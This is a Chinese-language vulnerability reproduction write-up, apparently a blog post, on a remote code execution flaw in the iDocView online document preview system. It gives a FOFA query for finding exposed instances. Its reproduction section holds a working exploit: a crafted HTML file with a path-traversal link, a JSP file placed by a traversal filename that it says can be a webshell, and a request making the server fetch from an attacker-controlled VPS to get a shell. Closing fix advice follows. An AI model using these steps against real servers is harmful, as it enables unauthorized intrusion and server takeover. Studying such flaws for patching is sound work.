






# I Doc View在线文档预览系统RCE漏洞(QVD-2023-45061)

### 0x01 产品简介

  iDocView是一个在线文档解析应用，旨在提供便捷的[文件查看](https://so.csdn.net/so/search?q=%E6%96%87%E4%BB%B6%E6%9F%A5%E7%9C%8B&spm=1001.2101.3001.7020)和编辑服务。

### 0x02 漏洞概述 

**漏洞成因**

本次漏洞出现在在线文档解析应用中的远程页面缓存功能。具体问题在于该应用未能对[用户输入](https://so.csdn.net/so/search?q=%E7%94%A8%E6%88%B7%E8%BE%93%E5%85%A5&spm=1001.2101.3001.7020)的URL进行充分的安全验证，从而导致存在安全隐患。攻击者可通过构造特殊的URL，引诱应用下载恶意文件。

**利用特征**

攻击者利用该漏洞的关键在于使用具有远程页面缓存功能的接口，在参数中填写预先准备的包含恶意文件的URL。此类请求能够绕过正常的安全检查，使得服务器下载并处理恶意内容。漏洞的触发会返回特定的响应状态和内容类型条件，攻击者可通过自动化脚本进行检测和利用。

**漏洞影响**

该漏洞的利用可能导致服务器被远程控制、敏感数据泄露等等。漏洞的存在不仅威胁到该[应用服务器](https://so.csdn.net/so/search?q=%E5%BA%94%E7%94%A8%E6%9C%8D%E5%8A%A1%E5%99%A8&spm=1001.2101.3001.7020)的安全性，还可能成为更广泛网络安全事件的触发点。建议受影响的用户尽快采取必要的安全措施，以防范潜在的安全风险。

### 0x03 影响范围

iDocView < 13.10.1\_20231115

### 0x04 复现环境

FOFA：title=="在线文档预览 - I Doc View"



### 0x05 漏洞复现 

VPS上构造一个携带恶意link\[href\]的html文件，里面的link指向你的恶意文件

构造index.html

```cobol
<!DOCTYPE html>
<html lang="en">
<head>
    <title>test</title>
</head>
<body>
  <link href="/..\..\..\docview\test.jsp">
</body>
</html>
```

构造恶意文件

```perl
vi '..\..\..\docview\test.jsp'


<%out.print("test");%>      #可以是马子
```

python开启一个http服务器，发送请求

```cobol
http://your-ip/html/2word?url=http://VPSip/index.html
```



当两个请求都响应200时会下载一个word文件，表示利用成功 

 验证



GetShell

  

### 0x06 修复建议

目前官方已发布安全修复版本，受影响用户可以自行更新或者联系相关技术支持获取最新版本或补丁修复漏洞。

https://api.idocv.com

**缓解措施**

隔离该系统对外访问，仅允许受信任网络或者用户访问。

拦截受影响Api接口的请求访问。
